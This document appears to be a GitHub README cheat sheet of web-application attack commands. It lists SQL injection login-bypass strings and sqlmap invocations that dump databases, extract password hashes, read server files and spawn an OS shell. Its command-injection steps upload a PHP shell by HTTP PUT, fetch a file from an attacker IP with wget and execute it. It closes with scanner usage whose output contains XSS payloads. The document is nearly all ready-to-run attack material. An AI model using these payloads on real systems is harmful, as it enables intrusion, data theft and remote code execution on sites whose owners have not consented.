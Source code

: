 # WebApp

## SQLInjections

Common Injections for Login Forms:
```
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—
```

## domain-to-webapp
```
./webAppChecker www.example.com ./ouput_dir ./scope.txt
```

## SQLMAP

Automated scan
```
sqlmap -u http://example.com –forms –batch –crawl=10 –cookie=jsessionid=54321 –level=5 –risk=3
```

Targeted scan
```
sqlmap -u http://example.com -p PARAM –data=POSTDATA –cookie=COOKIE –level=3 –current-user –current-db –passwords –file-read=”/var/www/blah.php”
```

Scan url for union AND error based injection with MYSQL backend AND use a random user agent AND database dump
```
sqlmap -u “http://example.com/vuln.php?id=1” –dbms=mysql –tech=U –random-agent –dump
```

Find forms for injections
```
sqlmap -o -u “http://meh.com/form/” –forms
```

Dump + crack hashes for table users on database-name
```
sqlmap -o -u “http://meh/vuln-form” –forms -D database-name -T users –dump
```

Flushes the session
```
sqlmap --flush session
```

Attempts to exploit the “user” field using boolean technique
```
sqlmap -p user --technique=B
```

Capture a request via Burp Suite, save it to a file, and use this command to let sqlmap automate everything. Add –os-shell at the end to pop a shell if possible
```
sqlmap -r <captured request>
```

## Command Injection

File Traverse
```
website.com/file.php[?path=/]
```

Test HTTP options using curl
```
curl -vX OPTIONS [website]
```

Upload file using CURL to website with PUT option available
```
curl --upload-file shell.php --url http://192.168.218.139/test/shell.php --http1.0
```

Transfer file
```
?path=/; wget http://IPADDRESS:8000/FILENAME.EXTENTION;
```

Activate shell file
```
; php -f filelocation.php;
```

## Corsy
* Scans for all known misconfigurations in CORS implementations.

Standard scan
```
python3 corsy.py -u https://example.com
```
Scan URLs from a file
```
python3 corsy.py -i /path/urls.txt
```
Scan URLs from stdin
```
cat urls.txt | python3 corsy.py
```
Number of threads
```
python3 corsy.py -u https://example.com -t 20
```
Delay between requests
```
python3 corsy.py -u https://example.com -d 2
```
Export results to JSON
```
python3 corsy.py -i /path/urls.txt -o /path/output.json
```
Custom HTTP headers
```
python3 corsy.py -u https://example.com --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"
```

## Garud
* Find injections points

Example Usage
```
garud -d hackerone.com
```
Exclude out of scope domains
```
echo test.hackerone.com > ossdomain.txt
garud -d hackerone.com -x ~/ossdomain.txt
```
With all flags
```
garud -d hackerone.com -j -s -x /home/oss.txt
```
Hide output in the terminal
```
garud -d hackerone.com -s
```
Store output in a single json file
```
garud -d hackerone.com -s -j
cd hackerone
cat output.json | jq
{
  "nuclei_critical": [],
  "vuln_crlf": [],
  "dalfox": [
    "[POC][V][GET][inATTR-double(3)-URL] http://subdomain.target.tld/hpp?pp=FUZZ%22onpointerout%3Dconfirm.call%28null%2C1%29+class%3Ddalfox+",
    ----------------------snip----------------------
    "subdomains": [
      "sub.target.tld",
      "tub.target.tld",
      "subdomain.target.tld"
  ],
  "vuln_xss": [
    "[POTENTIAL XSS] - http://subdomain.target.tld/hpp/?pp=%22%3E%2F%3E%3Csvg%2Fonload%3Dconfirm%28document.domain%29%3E ",
    "[POTENTIAL XSS] - http://subdomain.target.tld:80/hpp/?pp=%22%3E%2F%3E%3Csvg%2Fonload%3Dconfirm%28document.domain%29%3E ",
    "[POTENTIAL XSS] - http://subdomain.target.tld:80/hpp/index.php?pp=%22%3E%2F%3E%3Csvg%2Fonload%3Dconfirm%28document.domain%29%3E "
  ]
}
```
